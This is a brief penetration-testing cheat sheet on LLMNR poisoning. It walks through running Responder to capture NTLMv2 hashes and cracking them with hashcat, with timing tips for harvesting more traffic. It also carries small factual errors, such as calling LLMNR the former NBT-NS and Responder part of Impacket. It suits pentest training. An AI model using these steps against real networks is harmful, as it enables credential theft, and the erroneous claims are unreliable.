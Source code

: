# LLMNR Poisoning/Cracking Overview

## What is it?

* used to identify hosts when DNS fails
* previously known as NBT-NS

## Key Flaw

* service utilizes a users username and NTLMv2 hash when appropiately responded to as a response to us

![](../../../.gitbook/assets/untitled.png)

## Gaining Access with LLMNR

### Step 1: Run Responder \(part of Impacket\)

```bash
ip a
#or
ifconfig #(note the interface)
```

```bash
python [Responder.py](http://responder.py/) -l tun0 -rdw
```

```bash
responder -I eth0 -rdw
```

* run first thing in the morning or at lunch so you can get a lot of traffic

### Step 2: Something has to cause DNS to Fail

* for example, someone typing out a wrong network drive

### Step 3: Get the NTLMv2 hashes

* Responder will give you the hashes \(saving with GEDIT is best\)
* downgrade Impacket or Responder if problems persist

### Step 4: Crack the hashes

```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
# put --force if it does not work
```

* if that does not work, try to crack with the hashcat.exe for Windows, easier to use
* GPU IS THE BEST WAY

## Other Password Lists

* [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

